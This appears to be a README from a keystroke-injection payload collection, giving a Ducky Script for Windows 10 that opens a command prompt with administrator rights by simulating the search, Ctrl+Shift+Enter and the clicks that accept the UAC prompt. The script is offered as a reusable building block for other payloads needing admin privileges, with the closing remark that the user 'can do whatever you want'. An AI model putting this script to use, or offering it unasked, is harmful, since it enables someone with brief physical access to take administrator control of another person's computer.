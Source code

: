 # Payload
This simple payload just open a CMD with admin privileges, use it in any payload that need an admin privilege to perform commands.

***

# Code

    REM Opens a CMD as admin on windows 10
    REM Target: Windows 10
    DELAY 1000
    WINDOWS d
    DELAY 100
    WINDOWS
    DELAY 100
    STRING cmd
    DELAY 100
    CONTROL SHIFT
    ENTER
    DELAY 150
    LEFTARROW
    DELAY 150
    ENTER
    REM You got an admin CMD, you can do whatever you want
